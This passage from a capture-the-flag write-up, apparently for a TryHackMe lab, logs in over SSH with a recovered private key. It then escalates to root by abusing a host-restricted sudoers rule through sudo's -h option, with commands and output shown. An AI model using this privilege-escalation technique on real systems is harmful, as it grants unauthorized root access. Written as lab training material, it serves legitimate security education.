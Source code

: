 We got alice's private key! Let's use it.

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa alice@10.10.244.33                                                                    255 ⨯
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$
```

Looking for way to escalate to root. I tried basic enum. and didn't find any. Then i checked the `/etc/sudoers.d/` directory and find something.

```bash
alice@looking-glass:~$ cd /etc/sudoers.d
alice@looking-glass:/etc/sudoers.d$ ls
README  alice  jabberwock  tweedles
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

Let's abuse it by changing the host.

```bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# cat /root/root.txt
}f3dae6dec817ad10b750d79f6b7332cb{mht
root@looking-glass:/etc/sudoers.d# rev /root/root.txt
thm{REDACTED}
```
